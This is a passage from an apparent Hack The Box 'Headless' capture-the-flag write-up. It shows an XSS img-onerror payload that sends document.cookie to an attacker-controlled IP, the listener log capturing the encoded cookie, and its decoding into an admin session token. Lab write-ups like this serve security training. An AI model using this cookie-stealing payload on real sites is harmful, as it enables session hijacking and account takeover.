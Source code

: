 My web server on port `80` did received a callback from the machine

![](/assets/obsidian/a161ead573264410cadec1022f912cdf.png)

Next, steal cookies from the user

- Payload :

```bash
<img src=x onerror=this.src="http://10.10.14.39/c/"+btoa(document.cookie);>
```

![](/assets/obsidian/193a18056915b58853a9988555ec882a.png)

```bash
[2024-04-15 15:37:12] 10.10.11.8:35582 "GET /c/aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 404 19
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Headless]
└─$ echo aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

